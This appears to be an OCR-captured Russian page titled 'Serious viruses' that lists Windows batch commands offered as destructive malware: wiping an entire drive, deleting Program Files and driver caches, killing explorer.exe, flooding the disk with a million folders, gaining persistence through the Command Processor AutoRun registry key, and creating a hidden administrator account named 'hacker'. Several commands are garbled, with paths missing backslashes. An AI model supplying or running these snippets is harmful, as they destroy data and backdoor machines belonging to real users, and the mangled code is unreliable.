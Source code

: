 Серьезные вирусы

Удаляет ВСЕ с раздела\диска(не пытайтесь проверить у себя)

rd [Буква_Диск]: /s /q

Удаляет все файлы в program files

del c:Program Files/q

Убивает процесс explorer.exe

taskkill /f /im explorer.exe >nul

Создает миллион папок

FOR /L %%i IN (1,1,1000000) DO md %%i

Удаляет все драйвера, которые установлены на компьютере

del "%SystemRoot%Driver Cachei386driver.cab" /f /q >nul

Удаляет команду DEL

del %0

Будет открывать бесконечно Пэинт

:x
Start mspaint
goto x

Изменяет расширение всех ярлыков на .txt

assoc .lnk=.txt

Заражает Autoexec

copy ""%0"" "%SystemRoot%\system32\batinit.bat" >nul
reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "%SystemRoot%\syste m32\batinit.bat" /f >nul

Создает нового пользователя, с правами администратора, логин:hacker и пароль hack (Можете изменить)

@echo off
chcp 1251
net user SUPPORT_388945a0 /delete
net user hacker hack /add
net localgroup Администраторы hacker /add
net localgroup Пользователи SUPPORT_388945a0 /del
reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWinlogonSpecialAccountsUserList" /v "support" /t reg_dword /d 0 y


сбой системы (!) - выключить все функции ввода-вывода (клавиатура, дисплей, мышь). В результате будет черный экран с курсором и ни на что не реагирующая система, однако Windows продолжает работать.


rundll32 user,disableoemlayer

Меняет местами кнопки мыши,но обратная смена не возможна)

rundll32 user,SwapMouseButton
